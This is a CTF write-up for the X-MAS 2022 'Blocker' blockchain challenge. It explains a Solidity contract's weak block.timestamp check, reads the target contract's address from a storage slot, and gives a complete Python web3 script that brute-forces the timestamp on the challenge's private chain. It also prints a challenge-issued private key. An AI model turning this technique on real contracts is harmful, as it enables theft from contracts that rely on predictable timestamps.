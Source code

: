 # X-MAS CTF 2022 - Blockchain challenge write up

## Summary

Recently, I participated in the X-MAS 2022 CTF in my free time. There was an interesting blockchain related challenge. In this challenge, we were provided the source code of a vulnerable Solidity smart contract. The goal is to exploit the vulnerability and get the flag

The image below shows the source code of the contract

![1.png](images/1.png "1.png")

It is a straightforward contract which has two functions:

1. `_getPreviousTimestamp`: This function will return the timestamp of the block using block.timestamp
2. solve: This function will accept an integer as an input and compare it with block.timestamp

The goal is to be able to guess the block.timestamp accurately

Before we jump into the solution, it is important to mention that the value of block.timestamp is not a constant and it can be manipulated by the miner. This is why it is not suggested to use block.timestamp to generate random numbers in real world smart contracts since its value can be manipulated and guessed.

The value of block.timestamp in the Ethereum mainnet (prior to Merge) was usually within a range. It had to be greater than or equal to value of block.timestamp in parent block and it should be within a range. It can be represented mathematically as shown below.
```
block.timestamp <= now + X and is block.timestamp >= parent.timestamp
```
Here X is the range within which the block.timestamp would have to be

Refer for more details here: https://github.com/ethereum/wiki/blob/c02254611f218f43cbb07517ca8e5d00fd6d6d75/Block-Protocol-2.0.md

## Challenge

When we connect to challenge server, it deploys the vulnerable contract on a private instance of a blockchain and provides us the 4 options as shown in the image below.

![2.png](images/2.png "2.png")

Below is a brief description of these 4 options.

1. **uuid**: a unique identifier used to indicate our challenge instance
2. **rpc endpoint**: this is the private RPC URL used to connect to the private blockchain
3. **private key**: This is the private key of the account provided to us to interact with the blockchain. It is loaded with some balance to use for the gas fee
4. **setup contract**: this is the address of the deployer contract

There are two main steps to solve this challenge
- Leaking the vulnerable contract address
- Bruteforcing the block.timestamp

Now, we will discuss each step in detail.

## Leaking the vulnerable contract address

It is important to note that the setup contract address provided to us does not correspond to the vulnerable contract address. So, we still have to find the address of vulnerable contract.

My way of leaking vulnerable contract address was by reading the storage slot of the setup contract address. Since the setup contract deployed the vulnerable contract, the address of vulnerable contract would be stored in a storage slot of setup contract

```
vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])
```
If you want to understand why address is stored in the storage slot, you can fetch the bytecode of setup contract, decompile it and understand it.

## Bruteforcing the block.timestamp

The next step was to interact with the vulnerable contract, do transactions and guess the block.timestamp

The first thing I noticed was that each time we do a transaction, the value of block number incremented by 1 and the value of block.timestamp incremented by a random value.

Even though block.timestamp incremented by a random value, it was still within a range. Per my analysis, it was within a range of 100 seconds

So, to solve the challenge, I ran a loop for a maximum of 100 iterations. In each iteration, I would get the block.timestamp, increment it by 2 and send it in transaction. Then I would compare the block.timestamp after transaction with the previous value (incremented by 2). If the difference is 0, then it means we guessed it

Also, in the vulnerable contract source code, we can see that the value of state variable solved would be set to true if the challenge is solved. By checking for this value, we can confirm when the challenge is solved

The image below shows my script solving it:

![3.png](images/3.png "3.png")

Once we have solved it, we just need to connect to the challenge server, submit our uuid and setup contract address to get the flag.

![4.png](images/4.png "4.png")

Flag: X-MAS{beginooor}

## Solution code
```python
import web3
import time

print("Solution to Blocker challenge in X-MAS CTF 2022")
print("Sudeep Singh, Twitter @ SinghSoodeep")

rpc_url = "http://challs.htsp.ro:9001/ad8e2899-f227-4c48-83a1-17bf5d82809b"
w3 = web3.Web3(web3.Web3.HTTPProvider(rpc_url))
w3.isConnected()

setup_contract_address = "0x593EDc28F0Be694354BCe80c4b2DD991eE58E6Ca"
private_key = "0x4c93f3ae3b52d4ce27af51e8658b97e24a1f2eadb8a85cceaee0373cacca75dd"
print("Fetching account using the private key")

account = w3.eth.account.privateKeyToAccount(private_key)

print("Account address is: {}".format(account.address))

balance = w3.eth.getBalance(account.address)

abi = [{"inputs":[],"name":"current_timestamp","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"uint256","name":"_guess","type":"uint256"}],"name":"solve","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"solved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}]

print("Leaking the vulnerable contract address")

vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])

print("vulnerable contract address at: {}".format(vuln_contract_address))

gas_price = w3.eth.gasPrice
gas_limit = 1000000

web3.eth.defaultAccount = account.address

contract = w3.eth.contract(abi=abi, address=vuln_contract_address)

print("time analysis!!")
print("Exploit the vulnerability by bruteforcing the block.timestamp")

for i in range(100):
    before_block = w3.eth.get_block_number()
    tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp'] + 2
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("BEFORE: block_number: {}, tstamp: {}".format(before_block, tstamp))
    print("BEFORE: solved: {}".format(_solved))
    tx_hash =  contract.functions.solve(tstamp).transact({"gasPrice": gas_price, "gas": gas_limit})
    after_block = w3.eth.get_block_number()
    after_tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp']
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("AFTER: block_number: {}, tstamp: {}".format(after_block, after_tstamp))
    print("AFTER: solved: {}".format(_solved))
    print("time diff: {}".format(after_tstamp - tstamp))
    print("*********************************")
    time.sleep(0.5)
    if _solved == True:
        print("solved!")
        break
```
